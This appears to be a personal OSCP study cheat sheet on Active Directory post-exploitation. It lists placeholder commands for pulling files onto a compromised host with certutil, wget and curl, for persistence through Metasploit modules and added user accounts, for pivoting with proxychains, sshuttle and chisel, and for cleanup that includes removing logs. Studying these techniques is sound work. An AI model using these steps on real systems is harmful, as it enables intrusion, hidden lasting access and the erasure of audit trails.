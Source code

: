```yaml
---
aliases:
  - Active Directory Post Compromise Attacks
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - active_directory
  - post_exploitation
author: Mehdi N Tehrani
creat_date: 2023-12-10
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# File Transfer

## certutil
#certutil #windows
Windows
`certutil.exe -urlcache -f <url> <out_file>`
## HTTP
`python -m http.server <port>`
## Browser
navigate directly to the file
## FTP
#ftp
server: `python -m pyftpdlib 21`
client: `ftp <ip>`
## Linux
#wget #curl
`wget <url>`
`curl <url> -o <out_file>`

## metasploit
#metasploit #file_transfer
download/upload files

# Persistence
#persistence
## Metasploit Persistence Scripts
#metasploit #danger
> [!danger] metasploit persistence opens an unauthenticated port on the machine. Any attacker can abuse this.

`msfconsole > run persistence -h`
`exploit/windows/local/persistence`
`exploit/windows/local/registry_persistence`
## Metasploit Scheduled Tasks
#scheduled_tasks 
`msfconsole > run scheduleme`
`msfconsole > run schtaskabuse`

## Add a user
#windows
`net user <username> <pass> /add`

# Pivoting
#pivoting #pivot
## proxychains
#proxychains
if the victim's machine has multiple network interfaces, on the attacker machine the following command can be run to be able to pivot across to the networks on the other interfaces:
```
$ cat /etc/proxychains4
[...]
socks4  127.0.0.1 9050

$ ssh -f -N -D 9050 <user>@<ip>
       ^ run ssh in background
          ^ not executing a remote command; used for port forwarding

$ proxychains nmap <ip>
$ proxychains xfreerdp /u:<user> /p:<pass> /v:<ip>
$ proxychains firefox
```
#xfreerdp #rdp 
## sshuttle
#sshuttle
an alternative to *proxychains*
### Install
`sudo pip install sshuttle`
### Usage
`sshuttle -r <user>@<ip> <subnet_CIDR> --ssh-cmd "ssh -i <private_key>"`
keep the above running and then try any command e.g. `nmap -p80 <ip>`

## chisel
#chisel
https://github.com/jpillora/chisel
https://ap3x.github.io/posts/pivoting-with-chisel/


# Cleanup
#cleanup
Remove executables, scripts, added files including malware, rootkit, user accounts
Set settings back to original configuration
removing logs
